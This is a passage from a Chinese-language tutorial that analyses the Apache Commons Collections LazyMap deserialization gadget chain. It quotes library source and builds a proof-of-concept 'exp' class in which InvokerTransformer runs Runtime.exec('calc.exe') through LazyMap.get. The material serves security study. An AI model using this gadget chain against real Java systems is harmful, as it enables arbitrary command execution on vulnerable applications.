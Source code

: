 ```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

这里的`factory`​调用了`transform()`​方法,这个`factory`​是`protected final Transformer factory`​ 但是我们可以看到这里有两个`decorate()`​方法

```java
public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }

public static Map decorate(Map map, Transformer factory) {
        return new LazyMap(map, factory);
    }
```

因为上面刚刚分析完`TransformMap`​版本的,所以会对`decorate()`​方法眼熟

接受两个参数,然后传入`LazyMap`​的构造方法,然后就会将传入的`factory`​直接赋值给成员变量`factory`​

所以我们可以先构造一个基础的`exp`​

```java
package org.example;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class SecEXP {
    public static void SecEXP() throws InvocationTargetException, IllegalAccessException, NoSuchMethodException {
        Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"});
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map decorateMap = LazyMap.decorate(hashMap, invokerTransformer);
        Class<LazyMap> lazyMapCLass = LazyMap.class;
        Method lazyMapMethod = lazyMapCLass.getDeclaredMethod("get", Object.class);
        lazyMapMethod.setAccessible(true);
        lazyMapMethod.invoke(decorateMap,runtime);


    }
    public static void main(String[] args) throws InvocationTargetException, IllegalAccessException, NoSuchMethodException {
        SecEXP();
    }
}
```
